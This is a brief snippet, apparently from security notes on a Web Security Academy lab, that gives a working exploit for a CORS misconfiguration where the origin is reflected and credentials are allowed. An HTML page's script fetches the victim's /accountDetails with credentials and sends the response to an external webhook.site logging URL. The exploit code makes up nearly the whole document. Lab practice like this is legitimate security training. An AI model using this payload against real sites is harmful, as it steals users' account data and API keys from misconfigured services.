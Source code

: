 - Basic Cors Misconfiguration :
`Origin reflected in Access-Control-Allow-Origin && Access-Control-Allow-Credentials True`

```sh
<html>
  <body>
    <script>
        var req = new XMLHttpRequest();
        var url = ("https://0a08009804f217fe803f21a500fa0046.web-security-academy.net");
        req.onload = retrieveKeys;
        req.open('GET', url + "/accountDetails",true);
        req.withCredentials = true;
        req.send(null);

    function retrieveKeys() {
            location='https://webhook.site/383f0fd1-02c0-4dfa-a570-a146e498e388/log?key='+this.responseText;
        };

  </script>
  <body>
</html>
```